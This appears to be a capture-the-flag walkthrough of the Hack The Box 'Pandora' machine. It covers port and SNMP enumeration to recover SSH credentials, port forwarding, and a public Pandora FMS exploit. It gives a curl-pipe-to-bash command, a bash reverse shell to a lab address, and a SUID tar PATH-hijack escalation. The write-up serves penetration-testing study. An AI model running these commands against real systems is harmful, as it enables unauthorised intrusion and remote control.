 ## Pandora

Difficulty: Easy

### User Flag

#### Daniel User

```
rustscan -a 10.10.11.136 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/00fc5966-0e03-4515-ab86-870cbf461649)

![website](https://github.com/b1d0ws/OSCP/assets/58514930/28c14616-f8b3-47c9-90ee-668d927bfaf5)

<br>

The website seems to be protected, the only information we can collect is the domain name as panda.htb.  

We can perform an UDP Scan with nmap to find something interesting.

```
sudo nmap -sU 10.10.11.136 -T4 --top-ports=100
```

![nmapUDP](https://github.com/b1d0ws/OSCP/assets/58514930/e27457cf-ffd2-41ea-9c10-a27556991d58)

<br>

We find port 161, this is related to snmp.

There is some commands that can be used to enumerate this protocol and find credentials. This credentials can be used to login into SSH.

```
# Enumerate communities (dict.txt is a public wordlist commonly used por this)
onesixtyone -c dict.txt 10.10.11.136

# snmapwalk can enumerate the comunnity found before
snmpwalk -c public -v1 10.10.11.136

# To make the results cleaner you can perform this actions
sudo apt install snmp-mibs-downloader
sudo vi /etc/snmp/snmp.conf
comment mibs :$

# A faster way to enumerate snmp is using snmapbulkwalk
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 . > snmpwalk.1

# Other  tool is snmpenum
```

![enumCommunities](https://github.com/b1d0ws/OSCP/assets/58514930/e086fe65-cbec-4026-9586-f99d3e189362)

![snmpwalk](https://github.com/b1d0ws/OSCP/assets/58514930/a2c439e7-84c0-47cd-a5fd-fadd45f969be)

<br>

#### Matt User

Enumerating the machine, inside apache configuration, we find a sudbomain inside /etc/apache2/sites-enabled/pandora.conf.  

To access this website, we need to portfoward port 80 to access on our machine.

```
ssh -L 8000:127.0.0.1:80 daniel@10.10.11.136
```

![pandoraConf](https://github.com/b1d0ws/OSCP/assets/58514930/ca1e4da4-e332-47e9-9a05-ebd74cfb29f8)

![portForwarding](https://github.com/b1d0ws/OSCP/assets/58514930/cb4d0129-791e-4376-9240-f8d808325379)

<br>

The website uses Pandora FMS v7.0NG.742_FIX_PERL2020, that has some vulnerabilities.

![pandoraSite](https://github.com/b1d0ws/OSCP/assets/58514930/4e1ac904-794b-451c-bdb2-2256e81a587d)

<br>

The normal path is to exploit an sqlinjection to steal a session ID, log into the system and get a reverse shell via file upload.  

Since there is [this exploit](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated) that automate this, we will use it.

```
python3 exploit.py -t 127.0.0.1:8000
curl 10.10.14.11/reverse | bash

# reverse
bash -i >& /dev/tcp/10.10.14.11/3333 0>&1
```

![searchExploit](https://github.com/b1d0ws/OSCP/assets/58514930/865a9011-8bd7-4409-beeb-33a935eb89e2)

![gettingRevShell](https://github.com/b1d0ws/OSCP/assets/58514930/0a0a1ccc-0231-4918-bd7e-5ba5ea56f0d9)

<br>

### Root Flag

Create SSH Keys to login as Matt to ease the process.

There is a uncommon SUID bit called /usr/bin/pandora_backup. Running this binary, we see that is using tar.

![pandoraBackup](https://github.com/b1d0ws/OSCP/assets/58514930/a55b4ce5-a8b8-4e07-b918-ea744c9210e6)

![discoveringTar](https://github.com/b1d0ws/OSCP/assets/58514930/b3a0d4e6-64ea-4bad-b94b-4c9e103bb993)

<br>

We can try to do a Path Hijacking assuming the binary is being called in the relative way or transfer the binary to our machine and use "strings" to confirm.  

Just procced with the basics of Path Hijacking creating a tar binary that returns a reverse shell.

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/fdb38459-1ce3-448f-9284-c33ea3419021)
